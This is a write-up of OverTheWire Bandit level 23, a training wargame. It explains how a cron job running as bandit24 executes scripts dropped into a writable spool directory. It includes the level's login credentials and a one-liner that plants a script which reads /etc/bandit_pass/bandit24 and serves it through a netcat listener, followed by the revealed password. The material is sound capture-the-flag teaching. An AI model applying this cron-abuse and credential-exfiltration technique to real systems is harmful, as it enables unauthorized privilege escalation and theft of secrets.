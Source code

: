 #Level23
Connect to game via ssh on port 2220 using credentials bandit23:jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
_(format username:password)_
```sh
$ ssh -p 2220 bandit23@bandit.labs.overthewire.org
```

#Level Goal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

**Commands you may need to solve this level**
cron, crontab, crontab(5) (use “man 5 crontab” to access this)

#Walkthrough
Let's look at level24 user's cron.
```sh
bandit23@bandit:~$ ls -al /etc/cron.d/
total 36
drwxr-xr-x  2 root root 4096 Jul 11  2020 .
drwxr-xr-x 87 root root 4096 May 14  2020 ..
-rw-r--r--  1 root root   62 May 14  2020 cronjob_bandit15_root
-rw-r--r--  1 root root   62 Jul 11  2020 cronjob_bandit17_root
-rw-r--r--  1 root root  120 May  7  2020 cronjob_bandit22
-rw-r--r--  1 root root  122 May  7  2020 cronjob_bandit23
-rw-r--r--  1 root root  120 May 14  2020 cronjob_bandit24
-rw-r--r--  1 root root   62 May 14  2020 cronjob_bandit25_root
-rw-r--r--  1 root root  102 Oct  7  2017 .placeholder
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```
We can see that script /usr/bin/cronjob_bandit24.sh is executed every minute.

Lets see what that script does.
```sh
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

The script searches for all the files in /var/spool/level24 and if it finds file owned by level23 it executes it. Since the script runs under level24 privileges we can abuse it to print password for that user.

We also can see that /var/spool/bandit24 is world writable but not readable.
```sh
bandit23@bandit:~$ ls -al /var/spool/
total 660
drwxr-xr-x  5 root root       4096 May 14  2020 .
drwxr-xr-x 11 root root       4096 May  7  2020 ..
drwxrwx-wx 14 root bandit24 659456 Jun  4 18:17 bandit24
drwxr-xr-x  3 root root       4096 May  3  2020 cron
lrwxrwxrwx  1 root root          7 May  3  2020 mail -> ../mail
drwx------  2 root root       4096 Jan 14  2018 rsyslog
```

The oneliner solution is below.

The command will create directory in /tmp then create a script in that directory. The script will be copied to /var/spool/bandit24. When script executes it will cat password file to netcat that will be launched in background process. Netcat will listen to a connection on port 4444. 
We will then connect to port 4444 manually to read the password.

```sh
bandit23@bandit:~$ mkdir /tmp/bandit23 && echo -e '#!/bin/bash\n bash -c "cat /etc/bandit_pass/bandit24 | nc -nlp 4444 &"' > /tmp/bandit23/script.sh && chmod +x /tmp/bandit23/script.sh && cp /tmp/bandit23/script.sh /var/spool/bandit24/
bandit23@bandit:~$ nc localhost 4444
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

